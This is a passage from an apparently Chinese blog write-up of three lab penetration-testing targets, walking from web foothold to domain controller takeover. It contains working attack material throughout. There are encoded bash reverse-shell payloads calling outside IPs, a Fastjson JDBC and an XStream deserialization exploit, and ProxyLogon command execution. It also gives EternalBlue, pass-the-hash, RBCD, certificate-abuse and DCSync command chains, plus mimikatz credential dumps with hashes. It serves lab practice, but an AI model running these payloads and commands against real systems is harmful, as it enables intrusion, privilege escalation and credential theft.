


模拟实战内网渗透靶标总结笔记

- - -

# 模拟实战内网渗透靶标总结笔记

​ 续上篇内网渗透的知识面，下面进行渗透几台内网渗透靶标巩固，来源春秋云镜。前前后后也是打了几天，通过模拟更进一步了解内网渗透相关知识，从前期信息收集的外网打点到内网主机隧道搭建，了解域控一些常用漏洞姿势，最终拿下域控。

## 网鼎杯半决赛复盘靶标

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229151344-12d003c6-d6d2-1.png)  
靶标介绍：该靶场为 2022 第三届网鼎杯决赛内网靶场复盘。完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 4 个 flag，分布于不同的靶机。

### 前期信息收集

开局一个给了一个 IP 地址 `39.101.173.234`  
源代码看一下，一眼 wordpress 框架，版本`WordPress 6.4.3`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204744-66f12850-d56e-1.png)

寻找后台地址，访问`/wp-admin/`跳转到登录口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204749-6a1b62c0-d56e-1.png)

这里弱口令直接登陆了（`admin/123456`）  
后台 getshell，修改`404.php`即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204755-6daad948-d56e-1.png)

访问路径`/wp-content/themes/twentytwentyone/404.php`成功解析

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204816-79f594cc-d56e-1.png)

蚁剑后台连接获取靶标权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204823-7e191826-d56e-1.png)

根目录，获取到第一个 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204827-80cd32dc-d56e-1.png)

### 内网渗透

这里我们扫描其他内网主机，上传一个`fscan`扫描  
得到内网信息如下  
:::info  
172.22.15.24:80 open  
172.22.15.13:135 open  
172.22.15.18:80 open  
172.22.15.26:80 open  
172.22.15.26:22 open  
172.22.15.24:139 open  
172.22.15.35:139 open  
172.22.15.18:139 open  
172.22.15.13:139 open  
172.22.15.24:135 open  
172.22.15.35:135 open  
172.22.15.18:135 open  
172.22.15.24:3306 open  
172.22.15.13:88 open  
172.22.15.24:445 open  
172.22.15.35:445 open  
172.22.15.18:445 open  
172.22.15.13:445 open  
\[*\] NetInfo:  
\[*\]172.22.15.13  
\[->\]XR-DC01  
\[->\]172.22.15.13  
\[*\] NetInfo:  
\[*\]172.22.15.35  
\[->\]XR-0687  
\[->\]172.22.15.35  
\[+\] 172.22.15.24 MS17-010 (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)  
\[*\] NetInfo:  
\[*\]172.22.15.24  
\[->\]XR-WIN08  
\[->\]172.22.15.24  
\[*\] NetInfo:  
\[*\]172.22.15.18  
\[->\]XR-CA  
\[->\]172.22.15.18  
\[*\] NetBios: 172.22.15.35 XIAORANG\\XR-0687  
\[*\] NetBios: 172.22.15.13 \[+\]DC XR-DC01.xiaorang.lab Windows Server 2016 Standard 14393  
\[*\] 172.22.15.13 (Windows Server 2016 Standard 14393)  
\[*\] NetBios: 172.22.15.24 WORKGROUP\\XR-WIN08 Windows Server 2008 R2 Enterprise 7601 Service Pack 1  
\[*\] NetBios: 172.22.15.18 XR-CA.xiaorang.lab Windows Server 2016 Standard 14393  
\[*\] WebTitle: [http://172.22.15.26](http://172.22.15.26/) code:200 len:39962 title:XIAORANG.LAB  
\[*\] WebTitle: [http://172.22.15.18](http://172.22.15.18/) code:200 len:703 title:IIS Windows Server  
\[*\] WebTitle: [http://172.22.15.24](http://172.22.15.24/) code:302 len:0 title:None 跳转 url: [http://172.22.15.24/www](http://172.22.15.24/www)  
\[+\] [http://172.22.15.18](http://172.22.15.18/) poc-yaml-active-directory-certsrv-detect  
\[\*\] WebTitle: [http://172.22.15.24/www/sys/index.php](http://172.22.15.24/www/sys/index.php) code:200 len:135 title:None  
:::  
大致分析一下，这里`172.22.15.26`为此靶标地址。`172.22.15.24`可能存在永痕之蓝漏洞

```plain
[*] NetBios: 172.22.15.35    XIAORANG\XR-0687               
[*] NetBios: 172.22.15.13    [+]DC XR-DC01.xiaorang.lab          Windows Server 2016 Standard 14393  ## 域控
[*] 172.22.15.13  (Windows Server 2016 Standard 14393)
[*] NetBios: 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[*] NetBios: 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393 
[*] WebTitle: http://172.22.15.18       code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.15.24       code:302 len:0      title:None 跳转 url: http://172.22.15.24/www
[+] http://172.22.15.18 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle: http://172.22.15.24/www/sys/index.php code:200 len:135    title:None
```

这里我们配合`kali`配合搭建一个`nps代理隧道`  
注意此处：Kali 是作为服务端 `nps`、靶标为客户端 `npc`链接  
靶标是出网的..

```plain
1=system('%65%63%68%6f%20%22%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%79%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%69%22%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68');
%65%63%68%6f%20%22%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%79%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%69%22%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
## 直接弹 shell
```

### nps 隧道搭建

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204837-86c9957c-d56e-1.png)

搭建一个`socks5`代理，端口为`3333`，发现一台`OA`系统，测试无洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204842-8988f4ba-d56e-1.png)

此主机开启了`445`端口，经测试存在永恒之蓝漏洞，挖掘突破口  
转战`kali`系统，配合 socks5 代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204847-8c722746-d56e-1.png)

永恒之蓝靶标渗透成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204852-8f89b322-d56e-1.png)

### hash 攻击永恒之蓝

这里需要多打几次，获取系统 hash 进行攻击

```plain
proxychains psexec.py administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204858-92dace08-d56e-1.png)

在桌面找到第二个 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204902-957aae1c-d56e-1.png)

修改靶标密码，登录系统翻阅密码为`P@ssw0rd`，进行 hash 爆破  
省略了一步骤，可获取域控用户密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204907-982ab454-d56e-1.png)

### AS-REP Roasting 攻击

接下来，进一步获取系统的域控主机，学习一下 AS-REP Roasting 攻击。需要一个前提条件，域控默认不开启`预身份验证`，攻击者可以使用指定的用户去请求票据，向域控制器发送`AS_REQ`请求，此时域控会不作任何验证便将 TGT 票据和加密的 Session-key 等信息返回。因此攻击者就可以对获取到的加密 Session-key 进行离线破解，如果爆破成功，就能得到该指定用户的明文密码。

### CVE-2022–26923 && RBCD Attack 域控

需要学习的知识点

命令如下 `基于资源的约束性委派(RBCD)进行提权`

了解`Active Directory 域服务特权提升漏洞`,该漏洞允许低权限用户在安装了 Active Directory 证书服务服务器角色的默认 Active Directory 环境中将权限提升到域管理员。其原理主要是`唯一性判断`,Windows 系统未对 dNSHostName 做唯一性判断，域普通用户将其属性嵌入到证书中从而提升为域控

```plain
# 基于资源的约束性委派 (RBCD) 进行提权
echo "172.22.15.35 XR-0687.xiaorang.lab" >> /etc/hosts
# 通过 impacket-addcomputer 添加机器用户 hacker1/Admin@123
proxychains -q impacket-addcomputer xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'hacker1$' -computer-pass 'Admin@123'
# 将创建的机器用户 hacker1 的 SID 添加到 XR-0687 机器的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性
proxychains rbcd.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'hacker1$'
# 发起资源约束委派请求 ST 票据
proxychains impacket-getST xiaorang.lab/'hacker1$':'Admin@123' -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator
# 导入票据
export KRB5CCNAME=Administrator.ccache
# 通过 psexec 无密码连接横向
proxychains -q impacket-psexec -k -no-pass -dc-ip 172.22.15.13 administrator@XR-0687.xiaorang.lab -codec gbk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204914-9c9b7622-d56e-1.png)

`AD域权限提升漏洞(CVE-2022-26923)`  
渗透主机 `172.22.15.18(XR-CA.xiaorang.lab)`，整数服务漏洞  
大致流程如下  
下载：[https://github.com/ly4k/Certipy/](https://github.com/ly4k/Certipy/)

```plain
# 添加域名解析
echo "172.22.15.13 XR-DC01.xiaorang.lab" >> /etc/hosts
# 用 certipy 先枚举一遍可利用的证书模版
proxychains certipy find -u 'lixiuying@xiaorang.lab' -p 'winniethepooh' -dc-ip 172.22.15.13 -vulnerable -stdout
# 创建 hacker2$ 用户
proxychains -q certipy account create -user 'hacker2$' -pass 'Admin@123' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
# 通过 certipy 创建一个机器账号 hacker2，并且设置 DNS-Host Name 为域控的 XR-DC01.xiaorang.lab

proxychains -q certipy req -u 'hacker2$@xiaorang.lab' -p 'Admin@123' -ca 'xiaorang-XR-CA-CA'

#转换证书格式，密码为空
openssl pkcs12 -in xr-dc01.pfx -nodes -out test.pem
openssl rsa -in test.pem -out test.key
openssl x509 -in test.pem -out test.crt
```

下载：[https://github.com/AlmondOffSec/PassTheCert/](https://github.com/AlmondOffSec/PassTheCert/)  
`靶机存在一处报错，大概是域控制器没有安装用于智能卡身份验证的证书/尝试 Schannel 即通过 Schannel 将证书传递到 LDAPS, 修改 LDAP 配置 (例如配置 RBCD / DCSync), 进而获得域控权限`  
下载上述脚本

```plain
cp passthecert.py ../../
chmod +x passthecert.py
# 利用上面生成的 pfx 证书配置到域控的 RBCD, 注意先得把 pfx 导出为 .key 和 .crt 两个文件
proxychains -q passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13
proxychains -q passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'hacker2$'
# 最后通过证书认证赋予 hacker2 的 RBCD，以 hacker2 身份请求 ST 票据
# 并通过 psexec 横向域控制器
proxychains -q impacket-getST xiaorang.lab/'hacker2$':'Admin@123' -dc-ip 172.22.15.13  -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator
export KRB5CCNAME=Administrator.ccache # 导入票据
# psexec 获取域控
proxychains -q impacket-psexec  -k -no-pass -dc-ip 172.22.15.13 administrator@XR-DC01.xiaorang.lab -codec gbk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204923-a2235f74-d56e-1.png)

成功拿下此靶标。

## Exchange 靶标

闲着无聊的第二天，笔者又来到春秋打开了第二台靶标。

​ 靶标介绍：Exchange 是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 4 个 Flag，分布于不同的靶机。 \*注意：该靶场只有 4 个 flag，如果提交完 4 个 flag 后仍未攻克成功，请关闭环境提交反馈。

### 信息收集

同样，开局给了一个靶标地址，这里我们可以用`zenmap`或 `fscan`初步信息收集

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204929-a5bb4a5c-d56e-1.png)

发现开放 8000 端口，访问来到登录页面，查询发现是华夏 ERP

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204939-ab8adcb8-d56e-1.png)

搜寻华夏 ERP 历史漏洞，这里存在一枚弱口令`admin/123456`  
信息泄露漏洞 `/user/getAllList;.ico`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204946-afb11d66-d56e-1.png)

[奇安信攻防社区 - 某开源 ERP 最新版 SQL 与 RCE 的审计过程](https://forum.butian.net/share/134)  
[华夏 ERP CMS 代码审计 - FreeBuf 网络安全行业门户](https://www.freebuf.com/vuls/370821.html)  
[蓝帽杯 2022 决赛 - 赌怪 writeup - KingBridge - 博客园](https://www.cnblogs.com/kingbridge/articles/16720318.html)

### Fastjson RCE

此版本 `华夏ERP 2.3`是存在 `fastjson 1.2.55 RCE`漏洞的，进行复现  
构造数据包 进行 `JDBC`攻击

```plain
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "120.77.200.94", "portToConnectTo": 3306, "info": { "user": "yso_CommonsCollections6_bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx}|{base64,-d}|{bash,-i}", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }

%7b%20%22%6e%61%6d%65%22%3a%20%7b%20%22%40%74%79%70%65%22%3a%20%22%6a%61%76%61%2e%6c%61%6e%67%2e%41%75%74%6f%43%6c%6f%73%65%61%62%6c%65%22%2c%20%22%40%74%79%70%65%22%3a%20%22%63%6f%6d%2e%6d%79%73%71%6c%2e%6a%64%62%63%2e%4a%44%42%43%34%43%6f%6e%6e%65%63%74%69%6f%6e%22%2c%20%22%68%6f%73%74%54%6f%43%6f%6e%6e%65%63%74%54%6f%22%3a%20%22%31%31%31%2e%32%32%39%2e%31%35%38%2e%34%30%22%2c%20%22%70%6f%72%74%54%6f%43%6f%6e%6e%65%63%74%54%6f%22%3a%20%33%33%30%39%2c%20%22%69%6e%66%6f%22%3a%20%7b%20%22%75%73%65%72%22%3a%20%22%79%73%6f%5f%43%6f%6d%6d%6f%6e%73%43%6f%6c%6c%65%63%74%69%6f%6e%73%36%5f%62%61%73%68%20%2d%63%20%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%7a%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d%22%2c%20%22%70%61%73%73%77%6f%72%64%22%3a%20%22%70%61%73%73%22%2c%20%22%73%74%61%74%65%6d%65%6e%74%49%6e%74%65%72%63%65%70%74%6f%72%73%22%3a%20%22%63%6f%6d%2e%6d%79%73%71%6c%2e%6a%64%62%63%2e%69%6e%74%65%72%63%65%70%74%6f%72%73%2e%53%65%72%76%65%72%53%74%61%74%75%73%44%69%66%66%49%6e%74%65%72%63%65%70%74%6f%72%22%2c%20%22%61%75%74%6f%44%65%73%65%72%69%61%6c%69%7a%65%22%3a%20%22%74%72%75%65%22%2c%20%22%4e%55%4d%5f%48%4f%53%54%53%22%3a%20%22%31%22%20%7d%20%7d
```

运行 `server.py`开启，注意这里`config.json`配置 (ysoserial-all.jar 和 server.py 放一起)，bash 反弹 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227204956-b5a24614-d56e-1.png)

构造`/user/list?search=编码后的内容` 发包成功反弹 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205001-b8a69536-d56e-1.png)

在 `/root/flag`获取第一个 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205015-c1332c64-d56e-1.png)

### 内网探测

上传`fscan`对内网进行探测，这里服务器反弹个 shell 到`kali`，方便后续操作。  
弄个 nps 进行代理出隧道主机  
内网主机信息，本机地址：`172.22.3.12`

> start infoscan  
> (icmp) Target 172.22.3.12 is alive  
> (icmp) Target 172.22.3.2 is alive  
> (icmp) Target `172.22.3.9` is alive  
> (icmp) Target 172.22.3.26 is alive  
> \[*\] Icmp alive hosts len is: 4  
> 172.22.3.9:80 open  
> 172.22.3.12:80 open  
> 172.22.3.9:443 open  
> 172.22.3.12:22 open  
> 172.22.3.2:88 open  
> 172.22.3.12:8000 open  
> 172.22.3.9:81 open  
> 172.22.3.26:139 open  
> 172.22.3.9:139 open  
> 172.22.3.2:139 open  
> 172.22.3.26:135 open  
> 172.22.3.9:135 open  
> 172.22.3.2:135 open  
> 172.22.3.26:445 open  
> 172.22.3.9:445 open  
> 172.22.3.2:445 open  
> 172.22.3.9:808 open  
> 172.22.3.9:8172 open  
> \[*\] alive ports len is: 18  
> start vulscan  
> \[*\] NetBios: 172.22.3.26 XIAORANG\\XIAORANG-PC  
> \[*\] NetInfo:  
> \[*\]172.22.3.2  
> \[->\]XIAORANG-WIN16  
> \[->\]172.22.3.2  
> \[*\] WebTitle: [http://172.22.3.12](http://172.22.3.12/) code:200 len:19813 title:lumia  
> \[*\] NetInfo:  
> \[*\]172.22.3.26  
> \[->\]XIAORANG-PC  
> \[->\]172.22.3.26  
> \[*\] NetBios: 172.22.3.9 XIAORANG-EXC01.xiaorang.lab Windows Server 2016 Datacenter 14393  
> \[*\] NetInfo:  
> \[*\]172.22.3.9  
> \[->\]XIAORANG-EXC01  
> \[->\]172.22.3.9  
> \[*\] NetBios: `172.22.3.2` \[+\]DC XIAORANG-WIN16.`xiaorang.lab` Windows Server 2016 Datacenter 14393  
> \[*\] WebTitle: [http://172.22.3.12:8000](http://172.22.3.12:8000/) code:302 len:0 title:None 跳转 url: [http://172.22.3.12:8000/login.html](http://172.22.3.12:8000/login.html)  
> \[*\] 172.22.3.2 (Windows Server 2016 Datacenter 14393)  
> \[*\] WebTitle: [http://172.22.3.12:8000/login.html](http://172.22.3.12:8000/login.html) code:200 len:5662 title:Lumia ERP  
> \[*\] WebTitle: [http://172.22.3.9:81](http://172.22.3.9:81/) code:403 len:1157 title:403 - 禁止访问：访问被拒绝。  
> \[*\] WebTitle: [https://172.22.3.9:8172](https://172.22.3.9:8172/) code:404 len:0 title:None  
> \[*\] WebTitle: [http://172.22.3.9](http://172.22.3.9/) code:403 len:0 title:None  
> \[*\] WebTitle: [https://172.22.3.9](https://172.22.3.9/) code:302 len:0 title:None 跳转 url: `[https://172.22.3.9/owa/](https://172.22.3.9/owa/)`  
> \[*\] WebTitle: [https://172.22.3.9/owa/auth/logon.aspx?url=https%3a%2f%2f172.22.3.9%2fowa%2f&reason=0](https://172.22.3.9/owa/auth/logon.aspx?url=https%3a%2f%2f172.22.3.9%2fowa%2f&reason=0) code:200 len:28237 title:Outlook

成功代理处内网主机，存在`exchange服务`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205037-cdc65956-d56e-1.png)

经过测试，发现存在版本漏洞 `Exchange Server 2016 [ProxyLogon](https://github.com/hausec/ProxyLogon)漏洞`

### exchange 服务 getshell

`Poc`

```plain
proxychains python3 exprolog.py -t 172.22.3.9 -e administrator@xiaorang.lab

proxychains curl --request POST --url https://172.22.3.9/owa/auth/ncyev.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205043-d1e67318-d56e-1.png)

利用漏洞，进行添加 `管理员用户test`

```plain
net user test P@ssw0rd /add
net localgroup administrators test /add
```

这里有个点，kali `rdesktop`链接失败，可安装 `Remmina`代替，这里我们采取的方法是用 windows 物理机 `mstsc`链接  
参考：[Kali Linux 2020.02 安装 Remmina 远程桌面客户端\_kali remmina-CSDN 博客](https://blog.csdn.net/qq89115156/article/details/106853619)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205050-d589710a-d56e-1.png)

windows 设定规则 `mstsc`单个

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205054-d7f8394e-d56e-1.png)

链接，在管理员命令行获取 flag2

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205057-da41dbc4-d56e-1.png)

下面，我们进一步去提取密码信息

### mimikatz 提取密码

上传一个`mimikatz`获取密码 hash  
命令，注意这里要用管理员运行

```plain
privilege::debug
sekurlsa::logonpasswords
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205102-dd18b32c-d56e-1.png)

```plain
* Username : XIAORANG-EXC01$
 * Domain   : XIAORANG
 * NTLM     : 88f4cf50b8ecdb0cf5bfe4e24768c3e1
 * SHA1     : c6f3c7b125491ffad07945f560d1ce8bb1e334dc

 * Username : Zhangtong
 * Domain   : XIAORANG
 * NTLM     : 22c7f81993e96ac83ac2f3f1903de8b4
 * SHA1     : 4d205f752e28b0a13e7a2da2a956d46cb9d9e01e
 * DPAPI    : ed14c3c4ef895b1d11b04fb4e56bb83b
```

这里我们要进行分析域内账户关系，发现账户是隶属于`Exchange Windows Permissions`这个组中，而这个组具有 write 域内 acl 权限，可以通过`mimikatz`拿到的域内用户`Zhangtong的dcsync属性`，接下来我们要思考如何去获取`管理员hash`

### dcsync 操作获取域用户

这里也可以启动`BloodHound` 来分析，太累了留着后面弄  
通过`Write DACL`权限可以直接修改用户权限，以`Zhangtong`的身份给添加 DCSync 权限\`

> powershell -command "cd C:/Users/test/Desktop/; Import-Module .\\powerview.ps1; Add-DomainObjectAcl -TargetIdentity 'DC=xiaorang,DC=lab' -PrincipalIde Zhangtong -Rights DCSync -Verbose"

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205115-e4c4f176-d56e-1.png)

接下来继续操作

> .\\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit" > 1.txt  
> 给 zhangtong 增加 dcsync 权限：  
> python3 dacledit.py xiaorang.lab/XIAORANG-EXC01\\$ -hashes :22c7f81993e96ac83ac2f3f1903de8b4 -action write -rights DCSync -principal Zhangtong -target-dn 'DC=xiaorang,DC=lab' -dc-ip=172.22.3.2  
> mimikatz 转移账户：  
> sekurlsa::pth /user:Zhangtong /domain:XIAORANG /ntlm:22c7f81993e96ac83ac2f3f1903de8b4  
> 打 dcsync：  
> .\\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit" > 12.txt  
> 继续哈希传递打：  
> proxychains psexec.py administrator@172.22.3.2 -hashes :7acbc09a6c0efd81bfa7d5a1d4238beb -codec gbk  
> or  
> proxychains crackmapexec smb 172.22.3.2 -u Administrator -H 7acbc09a6c0efd81bfa7d5a1d4238beb -d xiaorang.lab -x "type C:\\Users\\Administrator\\flag\\flag.txt"  
> 得到第四个 flag  
> smb 登录邮箱服务器：  
> proxychains smbclient.py xiaorang.lab/administrator@172.22.3.26 -hashes :7acbc09a6c0efd81bfa7d5a1d4238beb -dc-ip 172.22.3.2
> 
> 成功拿下，又耗了几个沙烁，心疼。此靶标主要对版本漏洞考的比较多，也学到一新姿势（Dcsync 漏洞），主要是利用了域控制器中的`DSRPL`操作，该操作用于复制域控制器中的数据，包括用户 NTLM 哈希值。攻击者可以通过模拟一个域控制器，伪装成域控制器请求其他域控制器的数据，从而获取到用户的 NTLM 哈希值。续下一个啦

## Delivery 靶标

进击下一个，来到`Delivery`靶标，看解的人数还行。1 沙烁直接开干，总体打的挺舒服的

*靶标介绍：*

在这个靶场中，您将扮演一名渗透测试工程师，受雇于一家名为 Delivery 的小型科技初创公司，并对该公司进行一次渗透测试。你的目标是成功获取域控制器权限，以评估公司的网络安全状况。该靶场共有 4 个 Flag，分布于不同的靶机。

### Xstream RCE

这个一开始不够仔细，注意需要修改两处地址。来源漏洞

XStream 是一个轻量级、简单易用的开源 Java 类库，它主要用于将对象序列化成 XML（JSON）或反序列化为对象。

XStream 在解析 XML 文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用`sun.rmi.registry.RegistryImpl_Stub`构造 RMI 请求，进而执行任意命令。

[https://github.com/vulhub/vulhub/blob/master/xstream/CVE-2021-29505/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/xstream/CVE-2021-29505/README.zh-cn.md)

VPS 监听 1099 端口，开启服务

```plain
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMjI5LjE1OC40MC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205137-f1829a3a-d56e-1.png)

burp 传参接口`/just_sumbit_it`，注意修改 VPS 地址

```plain
POST /just_sumbit_it HTTP/1.1
Host: 39.99.154.52:8080
Content-Length: 3119
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://39.99.154.52:8080
Referer: http://39.99.154.52:8080//
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>VPS</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>VPS</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

拿到 shell 后，获取`第一个flag`后，自行做一个`NPS`隧道带出流量

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205159-fecf6bf0-d56e-1.png)

### 内网渗透

上传一个`fscan`对内网主机进行探测，整理信息如下

```plain
start infoscan
(icmp) Target 172.22.13.14    is alive
(icmp) Target 172.22.13.6     is alive
(icmp) Target 172.22.13.28    is alive
(icmp) Target 172.22.13.57    is alive
[*] Icmp alive hosts len is: 4
172.22.13.28:80 open
172.22.13.57:80 open
172.22.13.57:22 open
172.22.13.14:80 open
172.22.13.14:22 open
172.22.13.14:21 open
172.22.13.6:445 open
172.22.13.6:139 open
172.22.13.28:445 open
172.22.13.28:139 open
172.22.13.6:135 open
172.22.13.28:135 open
172.22.13.14:8080 open
172.22.13.28:8000 open
172.22.13.28:3306 open
172.22.13.6:88 open
[*] alive ports len is: 16
